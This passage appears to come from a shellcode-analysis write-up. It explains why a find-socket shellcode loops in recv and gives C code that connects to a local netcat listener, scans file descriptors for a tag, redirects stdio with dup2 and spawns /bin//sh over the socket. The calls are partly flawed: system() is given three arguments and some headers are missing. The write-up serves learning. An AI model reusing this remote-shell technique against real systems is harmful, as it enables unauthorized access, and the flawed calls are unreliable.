 If you were to run the shellcode (or the program above) and pass it to `strace`, you would notice the function `recv` enters an endless loop, so it will never reach the function `dup2`.

To make it work, I wrote some C code that creates a socket and connects to a `netcat` listener, which sends the string `fjHh`:

```cpp
#include <sys/socket.h>
#include <netinet/ip.h>

void main(int argc, char *argv[])
{
    unsigned short int fd = 2560;
    char buffer[2560] = {0};

    // START block of code of code taken from assignment n.2

    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &amp;client_address.sin_addr);
    client_address.sin_port = htons(4444);
    connect(client_socket_fd, (struct sockaddr *)&amp;client_address, sizeof(client_address));

    // END block of code of code taken from assignment n.2

    printf("[+] Trying to find the correct file descriptor\n");
    while (1)
    {
        recv(fd, &amp;buffer, 2560, MSG_DONTWAIT);
        if (buffer[0] == 102 &amp;&amp; buffer[1] == 106 &amp;&amp; buffer[2] == 72 &amp;&amp; buffer[3] == 104)
        {
            printf("[+] Correct file descriptor: %d\n", fd);
            break;
        } else
        {
            fd++;
        }
    }

    printf("[+] Redirecting error, output, and input\n");
    for (int i = 2; i >= 0; i--)
    {
        dup2(fd, i);
    }

    printf("[+] Here's your shell:\n");
    system("/bin//sh", "/bin//sh\n", 0);
}
```
